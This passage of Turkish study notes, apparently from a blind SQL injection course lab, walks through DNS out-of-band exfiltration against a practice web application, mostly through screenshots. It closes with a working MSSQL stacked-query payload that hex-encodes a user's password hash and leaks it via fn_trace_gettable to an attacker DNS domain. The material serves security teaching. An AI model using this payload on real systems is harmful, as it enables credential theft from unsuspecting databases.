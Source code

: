 Özel bir DNS domain kullandığımız ve DNS sunucu günlüklerine erişimimiz olduğu için, günlükleri yakalamak için interact.sh gibi başka bir listener kurmamıza gerek yoktur (yine de bir seçenektir) ve bunun yerine DNS web uygulamasındaki DNS loglarını doğrudan izleyebilir ve gelen DNS istekleri arasında arama yapabiliriz.


### Practical Example

Daha önce gösterildiği gibi bir DNS OOB saldırısı deneyelim ve nasıl veri sızdırabileceğimizi görelim. Bu sefer saldırıyı diğer ( Aunt Maria's Donuts ) web uygulaması üzerinde gerçekleştireceğiz, böylece farklı bir örnek gösterebiliriz. Daha önce bahsedilen payloadlardan birini aşağıdaki gibi enjekte edeceğiz:

![Pasted image 20241213203845.png](/img/user/resimler/Pasted%20image%2020241213203845.png)

İlk olarak, saldırıların beklendiği gibi çalıştığından emin olmak için bir test saldırısı gerçekleştirelim, çünkü bu herhangi bir blind saldırısı gerçekleştirirken önemli bir adımdır, çünkü potansiyel sorunları daha sonra tespit etmek daha zordur. Boolean SQL Injection saldırısı yapmakla ilgilenmediğimiz için, bu sefer AND kullanmayacağız ve yukarıdaki sorgumuza sadece bir maria'; :

![Pasted image 20241213203912.png](/img/user/resimler/Pasted%20image%2020241213203912.png)

Yukarıdaki sorguyu gönderdikten sonra, sorgunun doğru çalıştığını onaylayan bir mesaj almalıyız:

![Pasted image 20241213203928.png](/img/user/resimler/Pasted%20image%2020241213203928.png)

Şimdi, 1234 sub domain'i ile bir DNS isteği gönderildiğini doğrulamak için DNS loglarını kontrol etmemiz gerekiyor. Bunu yapmak için DNS sunucusundaki Logs sekmesine gideceğiz, ardından Query Logs'a ve son olarak Query'ye basacağız. Gördüğümüz gibi, yukarıdaki verilerle gerçekten de birkaç isabet aldık:

![Pasted image 20241213204017.png](/img/user/resimler/Pasted%20image%2020241213204017.png)

(SELECT 1234) yerine, maria'nın parola hash'ini yakalamak istiyoruz. Bu nedenle, @T içinde tanımlanan sorguyu aşağıdakiyle değiştireceğiz:

![Pasted image 20241213204041.png](/img/user/resimler/Pasted%20image%2020241213204041.png)

Not: Seçtiğimiz sorgunun her zaman yalnızca 1 sonuç döndürdüğünden emin olmalıyız, aksi takdirde saldırımız doğru çalışmayabilir ve tüm sonuçları tek bir string halinde birleştirmemiz gerekebilir.

Elbette, DNS kurallarına uymayan ve saldırımızı bozacak ASCII olmayan karakterler içerebileceğinden, sonucu kodlamamız gerekir. Bu yüzden, @T bildirimini aşağıdaki ile değiştiriyoruz (daha önce gösterildiği gibi):

![Pasted image 20241213204125.png](/img/user/resimler/Pasted%20image%2020241213204125.png)

Şimdi, domain'deki @T'yi @A ve @B ile değiştirirken her iki sorguyu da yığınlayabiliriz ve nihai enjeksiyon payload'umuz aşağıdaki gibi görünecektir:

`maria';DECLARE @T VARCHAR(MAX); DECLARE @A VARCHAR(63); DECLARE @B VARCHAR(63); SELECT @T=CONVERT(VARCHAR(MAX), CONVERT(VARBINARY(MAX), password), 1) from users WHERE username='maria'; SELECT @A=SUBSTRING(@T,3,63); SELECT @B=SUBSTRING(@T,3+63,63); SELECT * FROM fn_trace_gettable('\\'+@A+'.'+@B+'.blindsqli.academy.htb\x.trc',DEFAULT);- -+-`
